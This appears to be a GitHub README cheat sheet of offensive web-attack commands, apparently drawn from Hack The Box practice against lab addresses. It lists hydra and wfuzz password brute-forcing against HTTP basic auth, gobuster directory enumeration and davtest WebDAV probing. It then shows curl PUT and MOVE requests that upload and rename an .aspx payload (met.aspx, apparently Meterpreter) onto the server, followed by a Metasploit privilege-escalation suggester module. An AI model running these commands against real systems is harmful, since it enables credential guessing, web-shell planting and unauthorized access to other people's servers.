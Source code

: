 # web-payload  
Portal for any payload  
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
`wfuzz -u http://ethereal.htb:8080 --basic alan:FUZZ -w passwords.txt`  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html  `  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
